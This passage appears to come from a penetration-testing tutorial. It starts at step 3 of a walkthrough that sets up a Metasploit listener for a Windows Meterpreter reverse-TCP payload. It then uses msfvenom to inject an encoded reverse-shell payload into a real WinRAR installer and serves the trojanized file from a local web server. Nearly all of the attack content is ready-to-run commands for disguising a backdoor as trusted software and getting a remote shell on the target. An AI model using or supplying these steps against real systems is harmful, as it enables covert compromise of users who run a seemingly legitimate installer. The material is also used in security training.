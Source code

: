 3. **Set up the Listener in a new tab:**

    ```bash
    msfconsole
    ```

    Configure the handler:

    ```bash
    use multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST=[yourIP]
    set LPORT=1234
    show options
    run
    ```

4. **Execute the payload on the target system**:
   - On the Windows system, after uploading the payload, executing it on the target will allow us to obtain a Meterpreter session on our Kali system.
  
## Injecting Payloads Into Windows Portable Executables (Demo)

### Using `msfvenom`

We will use the `-x` option (the `-k` and `-x` options would also work).

### Objective

We are going to generate an x86 meterpreter payload and inject it into the WinRAR setup file. First, we download WinRAR.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[own IP] LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar.exe
```

### Checking if the Payload was Generated

We navigate to the directory where the payload was generated:

```bash
cd ~/Desktop/Windows_Payloads/
ls
```

We should see the `winrar.exe` payload file.

### Setting up a Web Server

To serve the payload, we set up a simple web server:

```bash
sudo python -m SimpleHTTPServer 80
```

